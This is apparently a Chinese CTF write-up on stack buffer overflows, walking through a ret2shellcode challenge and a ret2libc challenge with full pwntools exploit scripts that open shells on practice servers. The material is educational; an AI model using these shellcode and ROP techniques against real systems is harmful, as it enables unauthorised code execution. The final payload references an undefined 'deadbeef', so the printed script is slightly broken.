






# 栈溢出漏洞

## ret2shellcode

以[HNCTF 2022 Week1]ret2shellcode为例，先**checksec**一下

开了NX，丢入IDA分析

看到函数**mprotect**把内存变得可写，可执行，然后输入**s**，把**s**复制给**buff**。函数**read**存在栈溢出漏洞，偏移量为**0x100**。所以我们只要栈溢出传入**shellcode**使**buff**执行这个**shellcode**即可

exploit:

~~~python
from pwn import *

p = remote("node5.anna.nssctf.cn","28975")

shellcode = asm(shellcraft.sh())
buff_bss_addr = 0x4040A0

payload = shellcode.ljust(0x100,b"a") + p64(0) + p64(buff_bss_addr)

p.sendline(payload)
p.interactive()
~~~

运行得到flag：

    nssctf{W@rn1ng,Sh31lc0de_inj3ct3r!!!}

## ret2libc

以CISCN 2019 东北的Pwn2为例，先**checksec**一下

开了NX以及ALSR，再把附件丢入IDA分析

逻辑很简单

~~~
1.Encrypt
2.Decrypt
3.Exit
Input your choice!
~~~

先从3个选项里面选择，若选择1，则进入函数**Encrypt**；选择2，要求重新输入；选择3，退出程序。查看**Encrypt**函数

函数先**gets**一个变量**s**,再对**s**进行加密，输出加密后的**s**,最后返回**main**函数，我们看到**gets**时没有限定长度，所以存在**栈溢出漏洞**，可以看出溢出的偏移量应该是**0x50+0x8**。由于没有找到后门函数，也没有发现system和/bin/sh，所以得自己构造ROP链，通过**泄露got表**来得到libc的基址。

我们先通过**ROPgadget**获得**ret**和**pop rdi;ret**的地址

开始构建exploit1:

~~~python
from pwn import *

p = remote("node5.buuoj.cn","29642")

elf = ELF("./ciscn_2019_c_1")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']
ret_addr = 0x4005b9
pop_rdi_addr = 0x400c83

payload = b'\x00' + b'a'*(0x50+0x7) + p64(pop_rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

p.sendlineafter("choice!\n",str(1))
p.sendlineafter("encrypted",payload)

puts_addr = u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
print(hex(puts_addr))
~~~

运行后得到：

通过[libc database search](https://libc.blukat.me/)查询libc版本

构建exploit2:

~~~python
base_addr = puts_addr - 0x0809c0
system_addr = base_addr + 0x04f440
binsh_addr = base_addr + 0x1b3e9a

payload = b'\x00' + b'a'*(0x50+0x7) + p64(ret_addr) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr) + p64(deadbeef)

p.sendlineafter("choice!\n",str(1))
p.sendlineafter("encrypted",payload)
p.interactive()
~~~

运行得到**flag**

完整exploit:

~~~python
from pwn import *

p = remote("node5.buuoj.cn","29642")

elf = ELF("./ciscn_2019_c_1")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']
ret_addr = 0x4005b9
pop_rdi_addr = 0x400c83

payload = b'\x00' + b'a'*(0x50+0x7) + p64(pop_rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

p.sendlineafter("choice!\n",str(1))
p.sendlineafter("encrypted",payload)

puts_addr = u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
print(hex(puts_addr))

base_addr = puts_addr - 0x0809c0
system_addr = base_addr + 0x04f440
binsh_addr = base_addr + 0x1b3e9a

payload = b'\x00' + b'a'*(0x50+0x7) + p64(ret_addr) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr) + p64(deadbeef)

p.sendlineafter("choice!\n",str(1))
p.sendlineafter("encrypted",payload)
p.interactive()
~~~